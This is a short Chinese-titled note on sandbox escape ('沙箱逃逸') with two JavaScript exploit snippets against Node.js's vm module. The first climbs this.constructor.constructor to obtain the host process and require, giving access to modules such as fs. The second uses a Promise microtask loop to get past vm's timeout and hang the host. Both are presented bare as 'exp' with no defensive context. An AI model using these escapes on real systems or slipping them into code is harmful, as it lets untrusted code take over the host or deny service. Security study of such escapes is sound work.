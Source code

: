 
沙箱逃逸
-------------------------------

exp

.. code-block:: javascript

    const sandbox = {};
    const whatIsThis = vm.runInNewContext(`
        const ForeignObject = this.constructor;
        const ForeignFunction = ForeignObject.constructor;
        const process = ForeignFunction("return process")();
        const require = process.mainModule.require;
        require("fs");
    `, sandbox);

.. code-block:: javascript

    vm.runInNewContext(
      'Promise.resolve().then(()=>{while(1)console.log("foo", Date.now());}); while(1)console.log(Date.now())',
      {console:{log(){console.log.apply(console,arguments);}}},
      {timeout:5}
    );
